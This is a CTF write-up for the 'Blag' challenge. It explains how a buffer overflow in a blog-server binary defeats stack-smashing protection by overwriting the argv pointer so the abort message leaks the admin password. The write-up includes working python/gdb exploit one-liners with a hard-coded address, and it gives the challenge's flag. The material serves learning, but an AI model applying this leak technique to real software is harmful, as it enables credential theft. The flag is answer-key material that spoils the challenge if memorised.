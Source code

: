 # Blag (180 points)


###Problem overview:

  You're given a binary for a blog server that has a bug. You must exploit this bug to get the flag out of the admin's post, which the server won't let you read under normal circumstances.
  
###The process:
   I'll have to admit, this one had me stumped until the last two hours of the competition
I spent probably 5 or 6 hours in total looking at the source. I found the initial buffer overflow within about 10 minutes, but I didn't know what to do with it.
   
```C
52:  readline(buf,sizeof(p->body),stdin); //buffer overflow 320 -> 32
```
   
Despite my initial hopes, this buffer overflow proved to be useless (or did it?) due to   ProPolice Stack Smashing Protection (SSP). I'm sure a lot of you saw this:
```
*** stack smashing detected ***: ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42 terminated
```
   
   
  I gave up on this problem on the first day and came back to it with ~4 hours left in the competition. My teammates and I combed through the source again, and we concluded that the aforementioned buffer overflow was the only vulnerability in the program. I tried to overflow the buffer again, but this time with the full overflow size (320 bytes), and this time I got something interesting

```
$ python -c 'print "add\n" + "a\n" +"a\n" + "A"*320 + "\n"' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42

...
...


Segmentation fault (core dumped)
```

  For those of you who looked at the disassembly of the functions, this should surprise you. If the stack canary is not preserved (AKA if you overflow),then the program calls another function that aborts the program. This means that the segfault above has to have occurred somewhere in SSP's own code. Armed with this information, I got my google-fu on.
  
  I found [this pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf) from Dragon Sector, a collegiate/professional CTF team. Incidentally, it also has the solution to [oneshot](oneshot_170_pts.md) in it. As it turns out, the error message from above gets the name of the program from the `argv` variable. We can overflow the pointer to this with the pointer to some other random string that we need. Namely the admin password.
  
```
$ gdb -q ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
Reading symbols from ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42...(no debugging symbols found)...done.
gdb-peda$ p &adminpassword
$1 = (<data variable, no debug info> *) 0x804b080 <adminpassword>
gdb-peda$ q
$ $ python -c 'print "add\na\na\n"+"\x80\xb0\x04\x08"*76' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
...
...
*** stack smashing detected ***: meme terminated
```

I picked 'meme' as my local admin password, but if you tried it remotely you would get the real admin password. From there you can just authorize yourself and get the flag!!

pwned.
##Flag
`tjctf{I_h3aRd_ab0u7_1t_oN_th3_1nterBlag!}`


